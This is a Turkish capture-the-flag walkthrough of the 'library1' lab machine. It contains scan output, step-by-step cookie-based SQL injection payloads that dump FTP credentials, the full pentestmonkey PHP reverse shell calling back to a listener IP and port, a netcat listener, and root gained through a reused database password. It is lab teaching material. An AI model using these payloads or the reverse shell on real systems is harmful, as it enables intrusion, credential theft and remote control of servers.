


# library1 Kutusunun Çözümü
**Yazar:** Beren Kuday GÖRÜN<br>
**Tarih:** 28.07.2019<br>
**IP:** 192.168.119.131<br>
**Not:** Kutunun indirme adresi 'kutu' isimli klasöre eklenmiştir.<br>


## 1.	Bilgi Toplama
### 1.1	Ip Tespiti:
```sh
root@kali:~# arp-scan -l
Interface: eth0, datalink type: EN10MB (Ethernet)
Starting arp-scan 1.9.5 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.119.1	00:50:56:c0:00:08	VMware, Inc.
192.168.119.2	00:50:56:e0:33:be	VMware, Inc.
192.168.119.131	00:0c:29:34:49:bb	VMware, Inc.
192.168.119.254	00:50:56:fa:58:0a	VMware, Inc.

4 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.9.5: 256 hosts scanned in 2.383 seconds (107.43 hosts/sec). 4 responded
```
Ip adresi 192.168.119.131 olarak belirlenmiştir.

### 1.2	Servis Tespiti:
```sh
root@kali:~# nmap -p- -A    
Starting Nmap 7.70 ( https://nmap.org ) at 2019-07-28 08:21 EDT
Nmap scan report for 192.168.119.131
Host is up (0.00038s latency).
Not shown: 55531 filtered ports, 10002 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: 00:0C:29:34:49:BB (VMware)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.10 - 4.11
Network Distance: 1 hop
Service Info: OS: Unix

TRACEROUTE
HOP RTT     ADDRESS
1   0.38 ms 192.168.119.131

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 59.82 seconds
```
ftp ve http servisleri açık görülmüştür. İlk olarak hemen nikto ve dirbuster'ı çalıştırdım.
1. Nikto çıktısı:
```sh
root@kali:~# nikto -h http://192.168.119.131
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.119.131
+ Target Hostname:    192.168.119.131
+ Target Port:        80
+ Start Time:         2019-07-28 08:23:25 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache/2.4.18 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Server may leak inodes via ETags, header found with file /, inode: 2c39, size: 58dde3274d516, mtime: gzip
+ Apache/2.4.18 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Allowed HTTP Methods: OPTIONS, GET, HEAD, POST 
+ OSVDB-3233: /icons/README: Apache default file found.
+ 7915 requests: 0 error(s) and 7 item(s) reported on remote host
+ End Time:           2019-07-28 08:24:25 (GMT-4) (60 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```
2. Dirbuster çıktısı:
```
root@kali:~/Desktop/192.168.119.131# dirbuster
Starting OWASP DirBuster 1.0-RC1
Starting dir/file list based brute forcing
File found: /library.php - 200
Dir found: / - 200
Dir found: /icons/ - 403
File found: /icons/small - 301
Dir found: /icons/small/ - 403
```
library.php isimli bir dosya bulmuş olduk. Bu sayfaya tarayıcıdan gittim ve incelemeye başladım. Cookilerle işlem yaptığını anladım.
<div align="center">
    
    <p>Cookie</p>
</div>
Cookieleri gördükten sonra decode işlemi gerçekleştirdim ve bu sonucu elde ettim `{"lastviewed"=="Scotland"}`. Sayfada pek bir şey yok ve paragrafta ise bir eksiklik var gibi:

```sh
We couldn't find any information for .

Please try again later.
```
Tek işlem yapabileceğim şey burada cookie gibi duruyor. Bunun üzerinde cookie based sql injection denemeye karar verdim ancak cookie ifadesi bir sql komutuna yada yapısına benzemiyordu. Arka planda bunu parse işlemine soktuğu kesin bu yüzden biraz üzerinde oynadım. Şimdi herhangi bir tool kullanmadan sql injection yapmamız gerekmektedir. Kısaca yapacağımız işlemler şunlar olacaktır:
1. Tablodaki column sayısını belirlemeliyiz.
2. Bu işlemden sonra veritabanı versiyonunu öğrenmek ileride yazacağımız kodları belirleyecektir. MySql veri tabanı yapısında 5'ten önce ve 5'ten sonra olmak üzere 2 farklı yapı bulunmaktadır.
3. Veritabanı adını öğrenmeliyiz.
4. Tablo adını öğrenmeliyiz.
5. Tabloyu dump etmeliyiz.
6. Diğer tablolara bakmalıyız.

Yapacaklarımız aslında yukarıda verilmiştir. Bu listenin hepsini yapmak gibi bir zorunluluğumuz tabikide yoktur.

### Cookie Based Sql Injection:

1. `"{"lastviewed"=="'Spain'"}"` ifadesi ile doğru sonucu elde ettim. Artık burada sql injection yapabilirim.
2. Şimdi işlem yaptığımız tablodaki column sayısını bulmalıyız. Bunu `"{"lastviewed"=="'Spain' order by 1"}"` ifadesini deneyerek buldum. 1 den sonraki ifadelerde bir sonuç dönmediği için tablonun sadece 1 column'dan oluştuğunu anlayabiliriz. Bundan sonraki işlemlerde sonuçlarımızı bu bulduğumuz column'a bastıracağız.
3. Veritabanı versiyonun bulalım: `"{"lastviewed"=="'Spain' UNION SELECT @@version"}"` : Bize geri dönen cevap:
```
We couldn't find any information for 5.7.27-0ubuntu0.16.04.1.
```
Güzel kodlarımızın çalıtığı anlamına geliyor. Şimdi veritabanı ismini tablo adını ve içini okumaya çalışacağız.
4. `"{"lastviewed"=="'Spain' UNION SELECT database()"}"`
```
We couldn't find any information for library.
```
Veritabanı ismimiz `library`.
5. Şimdi tablololara ulaşalım. `"{"lastviewed"=="'Spain' UNION SELECT table_name FROM information_schema.tables WHERE table_schema = 'library'"}"`
```
We couldn't find any information for countries.
```
Çok güzel countries tablosunu bulduk.
5. Zaten tabloda neler olacağını az çok tahmin edebiliyorum, şuanda benim ilgimi çeken daha çok diğer tablolar oldu. Çünkü bir ftp server var ve bilgilerinin buradan çıkacağını düşünüyorum... `"{"lastviewed"=="'Spain' UNION SELECT table_name FROM information_schema.tables WHERE table_schema = 'library' and table_name not in('countries')"}"`
```
We couldn't find any information for access.
```
access isminde bir tablomuz daha var tam da düşündüğümüz gibi.
6. Şimdi columnlar hakkında bilgi edinelim. Bunun için kullnacağımız tablo information_schema veritabananı altındaki columns tablosudur. `"{"lastviewed"=="'Spain' UNION SELECT column_name FROM information_schema.columns WHERE table_name = 'access'"}"`
```
We couldn't find any information for password.
```
password column'unun olduğunu öğrenmiş olduk. Şimdi diğer columnları bulalım.
7. `"{"lastviewed"=="'Spain' UNION SELECT column_name FROM information_schema.columns WHERE table_name = 'access' and column_name not in('password')"}"` ve `"{"lastviewed"=="'Spain' UNION SELECT column_name FROM information_schema.columns WHERE table_name = 'access' and column_name not in('password', 'username')"}"` ve `"{"lastviewed"=="'Spain' UNION SELECT column_name FROM information_schema.columns WHERE table_name = 'access' and column_name not in('password', 'username', 'service')"}"` sorguları denenerek elde edilen sıralı sonuçlar sayesinde hızlı bir şekilde yazılmıştır. Artık tabloyu dump etmeye başlayabiliriz.
8. `"{"lastviewed"=="'Spain' UNION SELECT username from access"}"`
```
We couldn't find any information for globus.
```
9. `"{"lastviewed"=="'Spain' UNION SELECT password from access"}"`
```
We couldn't find any information for AroundTheWorld.
```
kullanıcı adı:globus ve şifresi:AroundTheWorld'tür.
10. Kontrollü olmak için elde ettiğimiz service column'nuna da baktıktan sonra sonucun ftp olduğunu görebiliyoruz.
 `"{"lastviewed"=="'Spain' UNION SELECT service from access"}"`
```
We couldn't find any information for ftp.
```
## 2 Sisteme Sızma
Artık elimizde ftp hesabı var ve sisteme reverse shell kodu upload ederek bağlanabiliriz. kodun aynısını /dosyalar klasöründede de bulabilirsiniz.Bu dosyayı ftp ile sisteme gödnerdikten soran izin olarak 777 vermeyi unutmayınız.
```php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  The author accepts no liability
// for damage caused by this tool.  If these terms are not acceptable to you, then
// do not use this tool.
//
// In all other respects the GPL version 2 applies:
//
// This program is free software; you can redistribute it and/or modify
// it under the terms of the GNU General Public License version 2 as
// published by the Free Software Foundation.
//
// This program is distributed in the hope that it will be useful,
// but WITHOUT ANY WARRANTY; without even the implied warranty of
// MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
// GNU General Public License for more details.
//
// You should have received a copy of the GNU General Public License along
// with this program; if not, write to the Free Software Foundation, Inc.,
// 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  If these terms are not acceptable to
// you, then do not use this tool.
//
// You are encouraged to send comments, improvements or suggestions to
// me at pentestmonkey@pentestmonkey.net
//
// Description
// -----------
// This script will make an outbound TCP connection to a hardcoded IP and port.
// The recipient will be given a shell running as the current user (apache normally).
//
// Limitations
// -----------
// proc_open and stream_set_blocking require PHP version 4.3+, or 5+
// Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.
// Some compile-time options are needed for daemonisation (like pcntl, posix).  These are rarely available.
//
// Usage
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.
set_time_limit (0);
$VERSION = "1.0";
$ip = '192.168.119.129';  // CHANGE THIS
$port = 4444;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
//
// Daemonise ourself if possible to avoid zombies later
//
// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}
	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}
	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}
// Change to a safe directory
chdir("/");
// Remove any umask we inherited
umask(0);
//
// Do the reverse shell...
//
// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}
// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);
$process = proc_open($shell, $descriptorspec, $pipes);
if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}
// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);
printit("Successfully opened reverse shell to $ip:$port");
while (1) {
	// Check for end of TCP connection
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}
	// Check for end of STDOUT
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}
	// Wait until a command is end down $sock, or some
	// command output is available on STDOUT or STDERR
	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);
	// If we can read from the TCP socket, send
	// data to process's STDIN
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}
	// If we can read from the process's STDOUT
	// send data down tcp connection
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}
	// If we can read from the process's STDERR
	// send data down tcp connection
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}
fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);
// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}
?> 
```
Şimdi bu kodu ftp ile karşı sisteme atacağım. Bunun için kullanacağınız araç size kalmış. Ben filezilla kullanıyorum. Karşı tarafa dosyayı attıktan sonra bir dinleme noktası oluşturalım.
<div align="center">
    
    <p>FTP</p>
</div>
```sh
nc -lvp 4444
```
Daha sonra karşı tarafta sayfayı tetikledikten sonra shell ekranı dönecektir.
```sh
listening on [any] 4444 ...
192.168.119.131: inverse host lookup failed: Unknown host
connect to [192.168.119.129] from (UNKNOWN) [192.168.119.131] 60512
Linux ubuntu 4.4.0-21-generic #37-Ubuntu SMP Mon Apr 18 18:33:37 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
 13:43:31 up  1:13,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ uname -a
Linux ubuntu 4.4.0-21-generic #37-Ubuntu SMP Mon Apr 18 18:33:37 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
$ whoami
www-data
$ 
```
Görüldüğü üzere shell döndü. Şİmdi etkileşimli shell'e geçelim...
```sh
$  python -c 'import pty; pty.spawn("/bin/bash")'      
www-data@ubuntu:/$ 
```

Aşağıdaki adımları takip ediniz.
```sh
globus@ubuntu:/$ cd /var 	
cd /var
globus@ubuntu:/var$ ls
ls
backups  crash	local  log   metrics  run   spool  www
cache	 lib	lock   mail  opt      snap  tmp
globus@ubuntu:/var$ cd www
cd www
globus@ubuntu:~$ ls
ls
html
globus@ubuntu:~$ cd html
cd html
globus@ubuntu:~/html$ ls
ls
index.html  library.php  shell.php  style.css
globus@ubuntu:~/html$ cat library.php
cat library.php
<?php
	session_start();


	function get_string_between($string, $start, $end){
		$string = ' ' . $string;
		$ini = strpos($string, $start);
		if ($ini == 0) return '';
		$ini += strlen($start);
		$len = strpos($string, $end, $ini) - $ini;
		return substr($string, $ini, $len);
	}

	get_string_between($str, "{\"lastviewed\"==\"", "\"}");

	$DATABASE_HOST = 'localhost';
	$DATABASE_USER = 'username';
	$DATABASE_PASS = 'password';
	$DATABASE_NAME = 'library';

	/* Setup the connection to the database */
	$mysqli = new mysqli('localhost', 'username', 'password', 'library');

	/* Check connection before executing the SQL query */
	if ($mysqli->connect_errno) {
		exit();
	}

	$sql = "SELECT name FROM countries WHERE name = ".get_string_between($_COOKIE['lastviewed'], "{\"lastviewed\"==\"", "\"}");

	if ($result = $mysqli->query($sql)) {
		while($obj = $result->fetch_object()) {
			$name=$obj->name;
		}
	}
?>
<!DOCTYPE html>
<html>
	<head>
		<meta charset="utf-8">
		<title>Library</title>
		<link href="style.css" rel="stylesheet" type="text/css">
		<link rel="stylesheet" href="https://use.fontawesome.com/releases/v5.7.1/css/all.css">
	</head>
	<body class="loggedin">
		<nav class="navtop">
			<div>
				<h1>Library</h1>
			</div>
		</nav>
		<div class="content" id="content">
			<h2>Library - Home Page</h2>
			<p>Welcome to the Library !</p>

			<form method="POST" action="library.php">
				<div class="tab">
  					<button class="tablinks" id="Netherlands" name="country" value="Netherlands" type="submit">Netherlands</button>
  					<button class="tablinks" id="England" name="country" value="England" type="submit">England</button>
  					<button class="tablinks" id="Germany" name="country" value="Germany" type="submit">Germany</button>
  					<button class="tablinks" id="France" name="country" value="France" type="submit">France</button>
  					<button class="tablinks" id="Romania" name="country" value="Romania" type="submit">Romania</button>
  					<button class="tablinks" id="Scotland" name="country" value="Scotland" type="submit">Scotland</button>
  					<button class="tablinks" id="Spain" name="country" value="Spain" type="submit">Spain</button>
  					<button class="tablinks" id="Sweden" name="country" value="Sweden" type="submit">Sweden</button>
  					<button class="tablinks" id="Norway" name="country" value="Norway" type="submit">Norway</button>
				</div>
			</form>

			<!-- ripemd160 -->

			<?php
				if ($_POST['country'] != '') {
					// {"lastviewed" == "$_SESSION['lastviewed']"}
					setcookie('lastviewed', "{\"lastviewed\"==\"".$_SESSION['lastviewed']."\"}");
					$_SESSION['lastviewed'] = $_POST['country'];
  					echo "<div><h3>We couldn't find any information for ".$name.".</h3><br>";
  					echo "<p>Please try again later.</p></div>";
				}
			?> 
		</div>
	</body>
</html>
globus@ubuntu:~/html$ 
```

## 3 Yetki Yükseltme
Yukarıda var/www/html/ klasörü altına gidip library.php dosyasını okuduktan sonra veri tabanına bağlanmak için gerekli şifre ve kullanıcı adını öğrendim. Bu şifreyi ilk önce globus kullanıcısı için denedim daha sonra root için denediğimde root oldum.
```
globus@ubuntu:~/html$ su root
su root
Password: password
root@ubuntu:/var/www/html# 
```

## Kaynaklar
1. https://redteamtutorials.com/2018/10/24/msfvenom-cheatsheet/
2. https://www.exploit-db.com/papers/13045